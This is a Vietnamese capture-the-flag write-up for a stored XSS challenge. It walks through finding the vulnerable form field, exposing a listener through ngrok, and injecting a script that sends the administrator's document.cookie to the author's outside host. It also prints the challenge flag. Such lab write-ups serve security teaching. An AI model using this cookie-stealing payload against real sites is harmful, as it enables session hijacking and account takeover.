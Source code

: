 # XSS - Stored 1
## Solution

Khi truy cập vào website thì có một form lưu thông tin như này


![image](https://user-images.githubusercontent.com/86184794/159664259-79e3a041-fa21-4d75-bd7d-8aaa5ce6ac85.png)

Để kiểm tra xem form này có bị lỗi XSS không thì ta nhập lần lượt các mã javascript vào để kiểm tra 

![image](https://user-images.githubusercontent.com/86184794/159664615-bcbe9a78-329a-4dc0-8b21-6ff93968e6c3.png)


Ô input đầu tiên không bị lỗi XSS.

![image](https://user-images.githubusercontent.com/86184794/159664803-f60ef3d9-884f-448d-806c-d16fa3d84add.png)

Ô input thứ hai bị lỗi XSS.


![image](https://user-images.githubusercontent.com/86184794/159664884-b179cbb0-abf6-46ec-89c3-921f6c0d9dc6.png)

Như vậy ta có thể khai thác chương trình bằng lỗi XSS ở ô input thứ hai.

Bây giờ chúng ta phải lấy cookie của quản trị viên server. Để lấy được cookie thì chúng ta có thể sử dụng document.cookie nhưng vấn dề là làm sao chúng ta có thể có nó được trong khi code javascript thì không thể leo thang đặc quyền bằng các lệnh alert,console.log,...Những lệnh này chỉ show được cookie của máy chúng ta.

Vì thế hướng giải quyết bài này là chúng ta phải đánh lừa quản trị viên server gửi cookie của họ đến máy chủ mà chúng ta kiểm soát. Để làm điều đó chúng ta sẽ nghĩ đến mốt số thẻ có thuộc tính src như img,.. để chứa liên kết máy chủ của chúng ta.

Để giải quyết được challenge này đầu tiên chúng phải tạo ra một server có thể lắng nghe trên mạng.

![image](https://user-images.githubusercontent.com/86184794/159666652-194e4314-5a8d-4cf6-9969-f9e8e81ab998.png)

Ở đây thì em đã tạo ra một server lắng nghe ở localhost port 11111 trên kali linux nhưng vẫn chưa đủ chúng ta cần phải public server đó ra ngoài internet.

Do đó em dùng ngrok để public server ra internet.


![image](https://user-images.githubusercontent.com/86184794/159667039-63016f43-5084-4eb9-a2f1-145cb21600e9.png)

![image](https://user-images.githubusercontent.com/86184794/159667120-9ebb245d-294d-4bef-81aa-d57da1b581e2.png)

ngrok cho chúng ta 2 đường dẫn public để truy cập vào server.

Việc tạo server đã xong giờ em đi tạo code để đánh lừa quản trị viên server cung cấp cookie cho server ảo mà em vừa tạo ra.

```
<script> document.write('<img src="http://9574-113-161-66-224.ngrok.io?cookie='+document.cookie+'"/>');</script>
```


Đây là code để đánh lừa quản trị viên server. Trong thuộc tính src của thẻ img sẽ chứa đường link đến server ảo em vừa mới tạo và em sẽ gọi đến cookie để truy cập đến cookie của server.

![image](https://user-images.githubusercontent.com/86184794/159668364-afa181ea-bf8f-4b10-a823-caa10dfd1f2a.png)

Đây là kết quả sau khi gửi form cho server.

![image](https://user-images.githubusercontent.com/86184794/159671042-e3a34a8f-17a6-4ff0-863b-7d4b5492ad62.png)


Flag: NkI9qe4cdLIO2P7MIsWS8ofD6
